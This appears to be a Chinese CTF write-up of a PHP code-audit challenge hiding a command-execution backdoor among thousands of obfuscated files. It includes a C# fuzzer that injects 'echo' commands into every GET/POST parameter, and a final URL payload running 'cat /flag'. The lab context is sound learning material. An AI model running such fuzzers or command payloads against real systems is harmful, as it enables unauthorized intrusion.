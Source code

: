 ![](<./img/Pasted image 20221126133523.png>)

---
首页长这样

![](<./img/Pasted image 20221126133538.png>)

离谱了

![](<./img/Pasted image 20221126134519.png>)

（草

这么多代码人工审计是不现实了（每日一题都不容易，这直接给我每日数千题QAQ），部署到了本地，尝试黑箱爆破

网上有大佬写好的`exp`，但是不会`python`QAQ，所以就用`C#`自己写了个（话说没有`GIL`，`C#`的多线程会不会比`python`快很多呢www）
```cs
using System.Text.RegularExpressions;

var dir = "/usr/share/nginx/html/src";
var files = Directory.GetFiles(dir);

var regexGet = new Regex(pattern: @"\$_GET\['(\w+)'\]");
var regexPost = new Regex(pattern: @"\$_POST\['(\w+)'\]");
var regexResponse = new Regex(pattern: @"maybeapayload");

Parallel.ForEach(files, file =>
{
    using StreamReader reader = File.OpenText(file);
    var content = reader.ReadToEnd();

    var matches = regexGet.Matches(content);
    var namesGet = new List<string>();
    foreach (Match match in matches)
    {
        var nameGet = match.Groups[1].Value;
        namesGet.Add(nameGet);
    }

    matches = regexPost.Matches(content);
    var namesPost = new List<string>();
    foreach (Match match in matches)
    {
        var namePost = match.Groups[1].Value;
        namesPost.Add(namePost);
    }
    UriBuilder uriBuilder = new()
    {
        Host = "localhost",
        Path = $"src/{Path.GetFileName(file)}",
        Query = string.Join('&', namesGet.ConvertAll(nameGet => $"{nameGet}=echo maybeapayload"))
    };
    // Console.WriteLine(uriBuilder.Uri);
    Dictionary<string, string> dict = new();
    namesPost.ForEach(namePost => dict.Add(namePost, "echo maybeapayload"));

    using HttpClient client = new HttpClient();
    using var response = client.PostAsync(uriBuilder.Uri, new FormUrlEncodedContent(dict)).Result;

    if (regexResponse.IsMatch(response.Content.ReadAsStringAsync().Result))
    {
        Console.WriteLine(file);
        Console.WriteLine(response.Content.ReadAsStringAsync().Result);
    }
});
```
跑完差不多花了4秒（打开优化的情况下），感觉效率蛮高

![](<./img/Pasted image 20221126204354.png>)

![](<./img/Pasted image 20221126204440.png>)

顺藤摸瓜找一找在`php`中出现的位置

![](<./img/Pasted image 20221126205805.png>)

这这这这藏得也太隐蔽了叭，出题人呕心沥血生成几千个文件来雷普萌新，他真的，我哭死==
```php
/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

![](<./img/Pasted image 20221126210934.png>)

#Web #PHP #代码审计 #RCE #代码混淆